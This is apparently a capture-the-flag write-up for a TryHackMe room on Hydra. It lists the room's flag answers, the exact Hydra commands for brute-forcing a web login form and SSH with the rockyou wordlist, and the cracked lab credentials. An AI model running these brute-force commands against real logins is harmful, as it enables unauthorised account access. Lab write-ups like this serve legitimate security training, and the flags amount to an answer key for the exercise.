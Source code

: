 ```
author: 0xUu
date: Jun 7th, 2024
topic: Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials. 
```

# Task 1. Hydra introduction 

* Read the above and have Hydra at the ready.

```
just install hydra using apt install hydra
```


# Task 2. 

* Use Hydra to bruteforce molly's web password. What is flag 1?
```
THM{2673a7dd116de68e85c48ec0b1f2612e}

I ran: hydra -l molly -P /opt/rockyou.txt $IP http-post-form "/login:username=^USER^&password=^PASS^:F=incorr
ect" -V 

correct credentials were: moly / sunshine
```

* Use Hydra to bruteforce molly's SSH password. What is flag 2?
```
THM{c8eeb0468febbadea859baeb33b2541b}

I ran: hydra -l molly -P /opt/rockyou.txt ssh://$IP 

correct credentials were: moly / butterfly
```

I connected to the server using `ssh molly@$IP`, cat flag2.txt and done.